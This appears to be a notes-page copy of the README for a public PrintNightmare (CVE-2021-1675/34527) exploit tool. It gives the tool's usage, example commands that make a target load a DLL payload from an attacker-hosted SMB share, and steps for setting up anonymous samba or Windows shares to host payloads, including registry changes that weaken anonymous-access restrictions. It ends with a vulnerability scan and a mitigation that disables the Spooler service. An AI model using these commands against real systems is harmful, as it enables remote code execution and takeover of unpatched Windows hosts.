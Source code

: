 ```yaml
---
category: Uncategorized
tags: []
---
```


# CVE-2021-1675 / CVE-2021-34527

https://github.com/cube0x0/CVE-2021-1675

#spooler #printer #cve #exploit

### Patch update

Microsoft has released a patch to mitigate against these attacks but if these values below are present on a machine, then the machine will still be vulnerable

```cmd
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

### [](https://github.com/cube0x0/CVE-2021-1675#installation)Installation

Before running the exploit you need to install my version of Impacket and after that you're gucci

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

### [](https://github.com/cube0x0/CVE-2021-1675#cve-2021-1675py)CVE-2021-1675.py

```bash
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### [](https://github.com/cube0x0/CVE-2021-1675#smb-configuration)SMB configuration

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

From windows it's also possible

```cmd
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

### [](https://github.com/cube0x0/CVE-2021-1675#scanning)Scanning

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol

### [](https://github.com/cube0x0/CVE-2021-1675#mitigation)Mitigation

Disable Spooler service

````cmd
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f
````